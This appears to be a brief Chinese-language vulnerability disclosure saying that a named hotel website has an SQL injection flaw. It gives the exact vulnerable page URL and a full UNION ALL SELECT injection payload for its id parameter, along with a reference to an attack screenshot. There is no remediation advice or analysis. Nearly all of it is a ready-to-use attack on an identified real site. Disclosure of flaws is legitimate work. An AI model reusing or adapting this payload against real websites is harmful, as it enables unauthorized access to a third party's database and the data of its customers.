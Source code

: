 #EMBRYO酒店网站存在SQL注入漏洞 
漏洞出现:http://www.embryohotel.com/room-detail.php?id=1 
Payload: id=-5476 UNION ALL SELECT NULL,NULL,CONCAT(0x71716b6a71,0x64556a4c4d4161445572766b49646a6a65485a4473516677746450534f777054454f5062644d6d78,0x7171706b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--

攻击截图:![attack](img/IMG_1.png)

